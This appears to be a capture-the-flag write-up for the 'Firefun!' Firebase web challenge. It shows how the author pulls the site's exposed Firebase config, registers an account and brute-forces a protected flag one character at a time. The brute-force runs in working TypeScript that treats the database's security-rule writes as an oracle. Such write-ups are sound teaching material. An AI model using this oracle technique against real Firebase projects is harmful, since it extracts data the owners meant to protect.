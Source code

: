 ```yaml
---
layout: post
current: post
cover:  False
navigation: True
title: "Firefun!"
date: 2022-11-03 10:00:00
tags: [BlueHensCTF, web]
class: post-template
subclass: 'post'
author: nisala
---
```


I love Firebase. So this really was the perfect challenge for me.

Special shoutout to Kyle for working on this with me ❤️

## The Challenge

In this challenge, we get a [link to a Firebase-hosted website](https://udctf-fire.web.app/), which displays the following image:

![Image showing Firebase RTDB with the flag and the rules for the database](/assets/bluehens/nisala/rules.png)

Okay, so it looks the flag is stored character-by-character in Realtime Database (RTDB), and the security rules block us from reading it directly. However, if we're authenticated, we can write to `/oracle/$userid/$index`, and if the written character at $index maches the character at $index at `/flag`, the write succeeds. Otherwise, the write fails. So assuming we can authenticate, we can brute-force the flag character-by-character, cycling through some character set until the write succeeds for each index.

## Getting Authenticated

So to start, we need to authenticate. But how can we do that without a Firebase API key? Well, this website is hosted on Firebase, and by default, Firebase Hosting exposes a web API key and related config at `/__/firebase/init.json`. When we go there, we get the following output:

```json
{
  "apiKey": "AIzaSyDmLIX31LAFvb1hefXs-e6Baspcfg6ran8",
  "authDomain": "udctf-fire.firebaseapp.com",
  "databaseURL": "https://udctf-fire-default-rtdb.firebaseio.com",
  "messagingSenderId": "272888152617",
  "projectId": "udctf-fire",
  "storageBucket": "udctf-fire.appspot.com"
}
```

Perfect. Now, we can authenticate and solve the challenge. In order to make things easier on myself, I created a React App, so that way I can use the Firebase JS SDK to authenticate and work with the databse. You can create a React App using `npx create-react-app firefun --template typescript`, and then you can install the Firebase SDK by running `npm install firebase`.

And now it's time to try to authenticate. There are three types of sign-up that are Firebase-native and thus don't require API keys from third parties -- Anonymous, Email/Password, and Phone. I first tried anonymous login, since it was the easiest:

```tsx
// App.tsx
import { initializeApp } from "firebase/app";
import { getAuth, signInAnonymously } from "firebase/auth";

initializeApp({
    "apiKey": "AIzaSyDmLIX31LAFvb1hefXs-e6Baspcfg6ran8",
    "authDomain": "udctf-fire.firebaseapp.com",
    "databaseURL": "https://udctf-fire-default-rtdb.firebaseio.com",
    "messagingSenderId": "272888152617",
    "projectId": "udctf-fire",
    "storageBucket": "udctf-fire.appspot.com"
});

signInAnonymously(getAuth());
```

Checking the console, we see `Firebase: Error (auth/admin-restricted-operation).`. Rats. Well, let's try email/password:

```js
createUserWithEmailAndPassword(getAuth(), "avishkank@gmail.com", "password");
```

No error in the console -- it works! Now that we have a working user, we can start brute-forcing the flag.

## Getting the Flag

To brute-force the flag, we need to loop through a character set of all possible characters in the flag, and try writing them one by one. If it fails, that's not the character at that index -- but if it succeeds, we've found it, and we can save it and move on.

```tsx
// cred is from the signInWithEmailAndPassword function
const uid = cred.user.uid;
let db = getDatabase();

let flag = [];
const CHAR_SET = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ{}_";
let i = 0;
while (flag[flag.length - 1] !== "}") {
    for (let char of CHAR_SET.split("")) {
        try {
            await set(ref(db, `/oracle/${uid}/${i}`), char);
            flag.push(char);
            i++;
            break;
        } catch {}
    }
}
```

Now that this challenge is pretty straightforward, it's time to add some flair. We have a React app, after all! Let's write the flag to a React state variable as we go, and put this code in a `useEffect` so it runs when the page loads:

```tsx
const [finalFlag, setFinalFlag] = useState<string[]>([]);

useEffect(() => {
    signInWithEmailAndPassword(getAuth(), "avishkank@gmail.com", "password").then(async (cred) => {
        const uid = cred.user.uid;
        let db = getDatabase();

        let flag = [];
        const CHAR_SET = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ{}_";
        let i = 0;
        while (flag[flag.length - 1] !== "}") {
            for (let char of CHAR_SET.split("")) {
                try {
                    await set(ref(db, `/oracle/${uid}/${i}`), char);
                    flag.push(char);
                    setFinalFlag(flag);
                    i++;
                    break;
                } catch {}
            }
        }
    });
}, []);
```

And finally, instead of the boring, default React app text, we can display the flag as it's being brute-forced:

```tsx
{ finalFlag.length > 0 ? finalFlag.join("") : "Starting up..." }
```

And now all we have to do is open the React app and watch it brute-force the flag in real time.

![GIF of solution](/assets/bluehens/nisala/solve.gif)
